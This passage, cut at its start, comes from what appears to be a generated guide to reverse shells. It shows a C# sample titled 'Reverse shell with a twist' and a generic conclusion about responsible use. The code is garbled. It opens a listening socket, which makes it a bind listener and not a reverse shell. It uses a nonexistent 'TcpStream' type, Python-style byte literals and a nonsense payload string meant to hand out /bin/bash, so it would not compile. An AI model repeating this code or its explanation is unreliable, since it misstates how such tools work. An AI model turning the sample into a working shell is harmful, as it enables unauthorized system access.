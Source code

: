 ```csharp
            Console.WriteLine(System.Text.Encoding.ASCII.GetString(buffer));
        }
    }
}
```

2. Reverse shell with a twist:
```csharp
using System;
using System.Net.Sockets;

class ReverseShell {
    public static void Main(string[] args) {
        TcpListener listener = new TcpListener(IPAddress.Any, 80);
        listener.Start();
        while (true) {
            TcpClient client = listener.AcceptTcpClient();
            Console.WriteLine("New connection from {}", client.Client.RemoteEndPoint);
            TcpStream stream = client.GetStream();
            byte[] buffer = new byte[1024];
            stream.Read(buffer, 0, 1024);
            Console.WriteLine(System.Text.Encoding.ASCII.GetString(buffer));
            stream.Write(b"eval yoda 'execute('file: /bin/bash')' ");
        }
    }
}
```

**Conclusion**
----------

In conclusion, a reverse shell is a powerful tool that can be used to gain access to a system. It is essential to understand how reverse shells work, the common tools used for them, and their security implications. By following best practices and using reverse shells responsibly, you can minimize the risks associated with these tools.
I hope this comprehensive guide helps you understand the concept of a reverse shell, its function, common tools, and security implications. Remember to use reverse shells responsibly and follow best practices to minimize the risks associated with these tools.
